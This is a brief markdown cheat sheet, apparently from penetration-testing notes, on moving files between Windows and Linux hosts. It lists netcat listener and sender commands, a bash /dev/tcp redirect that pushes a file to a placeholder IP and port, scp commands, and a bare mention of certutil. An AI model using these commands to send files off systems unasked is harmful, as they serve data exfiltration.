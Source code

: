 # Transferring Files
windows -> windows
windows -> linux
linux -> windows
linux -> linux

Downloading
Uploading


`nc -lnvp <PORT> > <FILE>` Receiver
`nc -q 0 <IP> <PORT> < <FILE>` Sender
`bash -c 'cat <FILE> > /dev/tcp/<IP>/<PORT>'` Sender

FROM ME
`scp <FILE> <USER>@<IP>:<FILE>` Upload - Via SSH, needs user password
`scp <USER>@<IP>:<FILE> <FILE>` Download\

certutil